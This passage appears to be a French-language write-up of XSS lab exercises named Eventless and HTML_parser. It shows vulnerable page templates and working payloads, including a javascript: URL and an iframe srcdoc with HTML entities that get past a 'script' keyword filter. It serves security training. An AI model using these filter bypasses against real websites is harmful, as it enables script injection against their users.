 ```js
javascript:alert(name)
```

**Explication de l'injection :**\
Pour cette exercice on utilise le protocole `javascript:` pour déclencher l'exécution du code lorsque la liaison sera ouverte.

---

### `Eventless`

**Consigne :**
This time both “script” and JavaScript events are blacklisted.
But there is still another way to trigger JS execution

> **Goal: `alert(name)` when the victim click the link**

**Code présent sur la page :**

```html
<h1>Hello $name</h1>
```

**Solution trouvée :**

```html
<iframe srcdoc='<scr&#105;pt>alert(parent.name)</scr&#105;pt>'>

Ou :

<a href=javas&#99;ript:alert(name)>Click me</a>
```

**Explication de l'injection :**\
Grâce à l'astuce numéro 3 on savait qu'il fallait utiliser l'attribut srcdoc.  
Srcdoc permet de passer le document HTML comme attribut.  
Il suffit ensuite de modifier une lettre du mot script en entitié HTML afin de bypass le filtre empêchant d'écrire `script`.

---

### `HTML_parser`

**Consigne :**\
Does this protection is enough to protect you against XSS ?

> **Goal: `alert(name)`**

**Code présent sur la page :**

```html
<h1>Hello <span id="name"></span></h1>
<script>
const container = document.getElementById("name")
const name = "$name"
container.innerText = name
</script>
```
